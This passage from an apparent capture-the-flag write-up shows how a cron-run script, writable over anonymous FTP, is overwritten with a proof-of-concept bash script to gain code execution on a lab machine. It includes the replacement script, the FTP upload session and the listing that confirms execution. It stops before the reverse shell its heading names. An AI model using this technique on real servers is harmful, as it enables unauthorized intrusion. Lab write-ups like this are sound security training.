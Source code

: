 ```console
┌──(kali㉿kali)-[~]
└─$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
...
```

This looks like a likely candidate for a cronjob - `clean.sh` is probably run at regular intervals to remove temporary files and log its activity. 

## 3. clean.sh exploit - poc, bash reverse shell

We now have the main elements of a potential exploit - it is likely that a cronjob is running code on the target from a writeable script, allowing us to replace the script's content and run arbitrary code. As a proof-of-concept, we make a simple bash script `clean.sh` that creates a new file `poc.txt` in the same `scripts` directory discovered on the server (we have the path to the directory in the original `clean.sh` script) :

```bash
#!/bin/bash

touch /var/ftp/scripts/poc.txt
```

We upload the file to replace the original `clean.sh` :

```console
┌──(kali㉿kali)-[~]
└─$ ftp $IP
Connected to 10.10.249.175.
220 NamelessOne's FTP Server!
Name (10.10.249.175:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put clean.sh scripts/clean.sh
local: clean.sh remote: scripts/clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
44 bytes sent in 0.00 secs (367.2543 kB/s)
```

We then wait a minute or so, and we see the `poc.txt` file in the directory :

```console
ftp> ls scripts
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000           44 Sep 05 20:38 clean.sh
-rw-rw-r--    1 1000     1000            0 Sep 05 20:39 poc.txt
-rw-rw-r--    1 1000     1000         1806 Sep 05 20:38 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
```

